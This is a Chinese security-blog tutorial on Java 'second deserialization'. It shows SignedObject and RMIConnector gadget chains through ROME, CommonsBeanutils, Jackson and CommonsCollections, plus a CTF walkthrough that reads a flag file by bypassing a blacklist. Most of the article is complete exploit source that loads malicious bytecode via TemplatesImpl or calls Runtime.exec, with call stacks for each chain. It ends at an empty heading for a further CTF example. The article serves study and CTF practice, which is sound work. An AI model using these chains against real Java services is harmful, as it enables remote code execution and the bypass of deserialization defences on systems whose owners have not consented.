# 浅谈 Java 二次反序列化 - 先知社区

浅谈 Java 二次反序列化

- - -

# Java 安全 - 浅谈二次反序列化

# 前言

在打反序列化的时候会经常存在 JNDI 不出网的情况下，无论是 ROME 链的恶意类加载还是 Hessian 的拼接起来的链子，都会遇到不出网的情况，那么不出网的情况下，应该怎么打呢？

# SignedObject 二次反序列化

### 简介

它是`java.security`​下一个用于创建真实运行时对象的类，更具体地说，`SignedObject`​包含另一个`Serializable`​对象。

### 利用链分析

利用链

```plain
SignedObject#getObject() -> x.readObject()
```

发现 getObject() 方法中还进行了一次 readObject() 反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195459-087c7e84-d567-1.png)

反序列化的内容也是可控，去看下他的构造方法，将传入的对象进行序列化给 b 并将字节数组存储到 content 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195509-0ead0256-d567-1.png)

一个小型 demo 来传入恶意对象

```plain
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化，kp.getPrivate(), Signature.getInstance("DSA"));
```

那么现在我先手动调用他的 getObject() 方法并且传入一个可以进行反序列化的对象 (随便拉了个 CC3 就行)

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;
import java.util.Map;

public class main {
    public static void main(String[] args) throws NoSuchAlgorithmException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, SignatureException, InvalidKeyException, NoSuchFieldException {

        //CC3

        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        //E:\Java_project\Serialization_Learing\target\classes\Calc.class
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);
        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = cls.newInstance(Override.class,maproxy);


        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        signedObject.getObject();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195531-1b9fb9ea-d567-1.png)

那么既然做到了手动触发，那现在的任务就是进行 getter 方法的调用，那其实思路也很清晰，找能够调用 getter 方法的链，刚好也总结一下常见调用 getter 的方法有哪些吧

### getter 触发链分析

#### Rome(HashCode)

利用链

```plain
hashmap#readObject() -> ObjectBean#hashcode() -> EqualsBean#javabeanHashCode() -> ToStringBean#toString()->SignedObject#getObject()
```

EXP

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;

public class Sign_RomeToStringBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap2);
        oos.close();

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
}
```

调用栈为

```plain
getObject:180, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
toString:120, ObjectBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
```

#### Rome(Equals)

利用链

```plain
Hashtable#readObject() -> EqualsBean#equals() -> EqualsBean.beanEquals() -> SignedObject#getObject()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195613-34c7ad7e-d567-1.png)

EXP

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;

public class Sign_RomeEqualsBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
}
```

调用栈

```plain
getObject:177, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
```

#### CommonsBeanutils

这里也快速分析下 CB 链调用 getter 的流程吧

以下形式来直接动态获取值

```plain
System.out.println(PropertyUtils.getProperty(student, "name"));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202900-c8b6b4e0-d56b-1.png)

这里断点进去看看是如何实现传入`name`​就调用`getName`​方法的

进去后发现会去调用`getNestedProperty`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202908-cd896602-d56b-1.png)

跟进后发现他是去判断我们传入的类是什么类型的，如果都不属于下图中类就调用`getSimpleProperty`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202915-d1c18902-d56b-1.png)

然后也是进去一系列判断如果都不属于这些类就调用`getPropertyDescriptor`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202921-d53e3b66-d56b-1.png)

而这个就是重点方法了，这里其实不需要去看他怎么实现的，他会返回`PropertyDescriptor类`​我们直接看他返回的对象`descriptor`​即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202926-d8871914-d56b-1.png)

可以发现他返回了几个属性，恰好就是 setter getter 方法名字

再接着往下就是获取方法的名字，然后去调用 641 行的反射

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202932-dc1334d2-d56b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202937-dec0a0a2-d56b-1.png)

所以到这里我们又可以想象`Fastjson`​一样，假设谁的 `PropertyUtils.getProperty`​ 传参是可控的，那么找到一个函数的 getter 是有危险行为的，那么通过 CB 链就可以去触发导致代码执行 (而在 Fastjson 中也是有这种情况发生，所以后半段恶意类加载就可以利用`TemplatesImpl`​链来完成)

我们可以来写一个 demo

```plain
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field facField = tc.getDeclaredField("_tfactory");
        facField.setAccessible(true);
        facField.set(templates, new TransformerFactoryImpl());
        templates.newTransformer();
        System.out.println(PropertyUtils.getProperty(templates, "outputProperties"));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202944-e2f6b3f0-d56b-1.png)

那么现在已经后半条链已经衔接好了，现在就是去找 jdk 跟 CB 依赖中进行衔接的反序列化点

也就是去找谁去调用了`getProperty`​方法

‍

于是找到了 `commons-beanutils-1.8.3.jar!\org\apache\commons\beanutils\BeanComparator#compare()`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202949-e62f2084-d56b-1.png)

这写法跟 CC4 的太像了真的，所以找到`compare()`​就可以联想到 CC4 的入口直接拼起来就可以串起来了

其实在这里我一直有个疑问，就是这个`compare()`​到底是否可控，因为他传两个参数我并不知道是在哪里可以控制的，调试了下也明白了，如下图

可以发现在 721 行是将`x`​传入，那么`x`​怎么进来的呢？

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202954-e93e6c26-d56b-1.png)

在上一个方法中就把`x`​传进来了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227202958-eb64e188-d56b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203002-edb98b50-d56b-1.png)

在`heapify`​中就传了对象，再往上跟就是`readObject`​了，而在`heapify`​中进行了数组的右移所以可以寻找到该属性通过 `priorityQueue.add(templates);`​传入的类，如果我们传入 `3`​ 就会不一样了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227203006-f0506bd6-d56b-1.png)

就会变成数字类`3`​ 这也就是为什么我们队列这里要写入`TemplatesImpl`​类，这样子才能去调用到`TemplatesImpl`​类的 getter 方法

调用链

```plain
PriorityQueue#ReadObject() -> PriorityQueue#siftDownUsingComparator() -> BeanComparator#compare() ->PropertyUtilsBean#getSimpleProperty() -> TemplatesImpl#getOutputProperties()
```

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.PriorityQueue;

public class CB_SignedObject {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        PriorityQueue queue1 = getpayload(obj, "outputProperties");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getpayload(signedObject, "object");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static PriorityQueue<Object> getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator, "property", string);
        setFieldValue(priorityQueue, "queue", new Object[]{object, null});
        return priorityQueue;
    }
}
```

调用栈

```plain
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethod:2116, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1267, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:808, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:884, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:464, PropertyUtils (org.apache.commons.beanutils)
compare:163, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:722, PriorityQueue (java.util)
siftDown:688, PriorityQueue (java.util)
heapify:737, PriorityQueue (java.util)
readObject:797, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

#### Jackson 链

刚好 Jackson 的首发就是先知，如果对`POJONode#tostring()`不懂流程的话，可以参考我后续写的参考链接，写的蛮清楚的

其实就是通过`POJONode#tostring()`​来进行 getter 的调用，那么怎么触发 tostring 方法呢在反序列化中，也就是两种形式

1.  ​`Rome`​ 上述的`ToStringBean#tostring()`​
2.  ​`BadAttributeValueExpException#readObject()`​

##### 例题分析 - 2023 巅峰极客 BabyURL

###### 考点分析

1.  Java 代码审计
2.  Java SignedObject 二次反序列化
3.  Jackson 链反序列化漏洞

给了 jar 包，先看目录结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195727-607ae184-d567-1.png)

有两个控制器

第一个是`hack`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195739-67cec842-d567-1.png)

传 base64 的 payload 进来反序列化成`URLHelper`​类，但这里是他自己写的反序列化，跟进下`MyObjectInputStream`​发现写了黑名单

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195745-6b511b0a-d567-1.png)

​`java.net.InetAddress","org.apache.commons.collections.Transformer","org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper`​

第二个是`file`

/file 路由会读取/tmp/file 的内容并返回

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195806-78184ebc-d567-1.png)

再来看看黑名单的两个类

​`URLHelper`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195818-7ed12c38-d567-1.png)

在 ReadObject 方法中可以对`/tmp/file/`​操作，并且会用`visitUrl`​处理传入的值

​`URLVisiter`​

传入的内容不能以`file`​开头，对传入的内容进行`new URL()`​处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195835-8948b6ea-d567-1.png)

那么限制我们来罗列一下

1.  可以打 URL 的一个读取文件，但是有一个黑名单拦截，但是大写即可绕过
2.  反序列化存在黑名单，但是可以打 SignedObject 的二次反序列化来触发`URLHelper`​类
3.  如何拼接 SignedObject 链呢？查看依赖发现存在 Jackson 链，想到`BadAttributeValueExpException`​ 配合 `POJONode`​ 链

那么问题就解决了，编写下 EXP

```plain
package com.yancao.ctf;

import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.bean.URLVisiter;
import com.fasterxml.jackson.databind.node.POJONode;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import javassist.*;

import javax.management.BadAttributeValueExpException;

public class exp
{
    public static void main(String[] args) throws Exception {
        URLHelper urlHelper = new URLHelper("File:///flag");
        urlHelper.visiter = new URLVisiter();

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(urlHelper, kp.getPrivate(), Signature.getInstance("DSA"));

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();

        POJONode node = new POJONode(signedObject);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        setFieldValue(val, "val", node);

        ser(val);

    }
    public static void ser(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }


}
```

再次访问下 file 即可得到 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195853-9433ea52-d567-1.png)

# RMIConnector

### 利用链

```plain
nvokerTransform#transform() -> RMIConnector#connect() ->> RMIConnector#findRMIServerJRMP()
```

### 利用链分析

#### `RMIConnector#findRMIServerJRMP()`​

在该方法中，将 base64 字符串解码后以序列化流的形式进行反序列化操作，如果能控制 base64 参数即可造成二次反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195916-a1a48840-d567-1.png)

网上寻找，找到同文件的`findRMIServer`​方法有调用，且判断 path 的开头必须为/stub/并截取的 path 后的值，所以 path 为我们 base64 序列化字符串的传入点。而 path 通过 getURLPath 获取，也就是下面 urlPath 属性的值，所以这里我们的思路就是通过反射修改 urlPath 属性的值，为/stub/base64\_ser\_str 的形式

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195927-a82224a2-d567-1.png)

再往上跟找到`connect()`​方法

#### ​`RMIConnector#connect()`​​

发现是一个 public 的 connect 方法调用了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227195941-b097b5a2-d567-1.png)

那么现在就 2 个思路

1.  谁的方法调用了`connect`​方法并且传入的值可控，然后一直往上跟 readobject 或者 tostring 或者 getter 方法
2.  谁的反射可控，直接进行反射调用

那么现在先写一个本地的直接反射调用的 demo 来触发二次反序列化

```plain
package RMIconnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6_t {


    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

        String s = serialize2Base64(map2);
        run(s);
//        unserialize("ser.bin");

    }


    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return s;
    }

    public static void run(String base64) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        rmiConnector.connect();

    }

}
```

那么接下来的问题就是如何把这个`connect()`​方法给利用起来，第一种方法比较难跟，但是第二种方法我们就可以联想到最简单的 CC 链的`InvokerTransformer`​来进行任意类任意方法调用，这样子就可以套一层反射来调用`connect()`​了

于是就可以写出 EXP，通过 CC6 来进行调用二次反序列化

```plain
package RMIconnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6_t {


    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);


        String s = serialize2Base64(map2);
        run(s);
//        unserialize("ser.bin");

    }

    public static void unserialize(byte[] ser) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(ser));
        objectInputStream.readObject();
        System.out.println("Unserialize Ok!");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return s;
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        System.out.println("Serialize Ok!");
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(s);
        System.out.println(s.length());
        return byteArrayOutputStream.toByteArray();
    }
    public static void run(String base64) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        InvokerTransformer connect = new InvokerTransformer("connect", null, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,rmiConnector);
        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "2");
        lazyMap.remove(rmiConnector);
        setFieldValue(lazyMap,"factory",connect);
        byte[] serialize = serialize(hashMap1);
        unserialize(serialize);
    }

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227200015-c49cbfb6-d567-1.png)

调用栈

```plain
findRMIServerJRMP:1993, RMIConnector (javax.management.remote.rmi)
findRMIServer:1924, RMIConnector (javax.management.remote.rmi)
connect:287, RMIConnector (javax.management.remote.rmi)
connect:249, RMIConnector (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
transform:125, InvokerTransformer (org.apache.commons.collections.functors)
get:151, LazyMap (org.apache.commons.collections.map)
getValue:73, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:120, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
```

# 例题分析

## \[TCTF 2021\]buggyLoader

